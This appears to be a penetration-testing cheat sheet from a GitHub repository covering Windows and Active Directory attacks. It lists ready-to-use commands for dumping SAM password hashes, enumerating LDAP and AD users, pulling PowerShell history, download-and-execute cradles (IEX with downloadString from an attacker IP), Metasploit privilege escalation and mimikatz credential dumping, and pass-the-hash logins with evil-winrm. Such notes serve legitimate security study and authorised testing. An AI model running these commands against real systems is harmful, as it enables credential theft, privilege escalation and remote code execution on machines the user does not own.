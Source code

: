 ### SAM (Security Account Manager)
A file that store Windows user credential. It can only be accessed when the Windows OS is not booted up. (Eg. from another OS) <br />
Passwords are LM & NTLM hashed <br />
```
Default file location: 
C:\Windows\System32\config\SAM
C:\Windows\System32\config\SYSTEM

Dumping hashes:
samdump2 SYSTEM SAM
pwdump.py SYSTEM SAM    # For Windows 10

Format of Hashes:
[USERNAME]:[RID]:[LMHash]:[NTLMHash]:::   # RID = Relative Identifier
```

Ref: https://techgenix.com/how-cracked-windows-password-part2/

### Active Directory & LDAP
Enum
```
nmap -n -sV --script "ldap* and not brute" [IP_ADDR]
ldapsearch -h [IP_ADDR] -x -b "dc=[DC],dc=[DC]"
windapsearch.py -d [DOMAIN] --dc-ip [IP_ADDR] -U    # -U to enumerate all AD users; -G for AD group enumerate
```
Ref: https://book.hacktricks.xyz/pentesting/pentesting-ldap

### PowerShell
```
C:\Users\[username]\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt   # check powershell history
IEX ( IWR http://[IP_ADDR]/[PATH] -UseBasicParsing)   # equil linux wget http://[IP_ADDR]/[PATH] to upload file to the server
iwr http://[IP_ADDR]/[PATH] -OutFile [FILE]
IEX(New-Object Net.Webclient).downloadString('http://[IP_ADDR]/[PATH]')
```

### Metasploit
```
getsystem
load kiwi   # mimikatz
lsa_dump_sam
```

### iCACLS.exe
```
Change file and folder permission 
icacls [FILE] /grant [USERNAME]:F   # :F for full access
```
Ref: https://ss64.com/nt/icacls.html

### RPC Dump
```
rpcdump.py [USERNAME]@[IP_ADDR]
```

### Evil-WinRM
```
evil-winrm -i [IP_ADDR] -u [USERNAME] -H [HASH]   # hash retrievable from secretsdump.py machines/smb
```

### Tcpdump
```
tcpdump -i tun0 icmp -v   # listen for icmp ping to tun0 interface
```
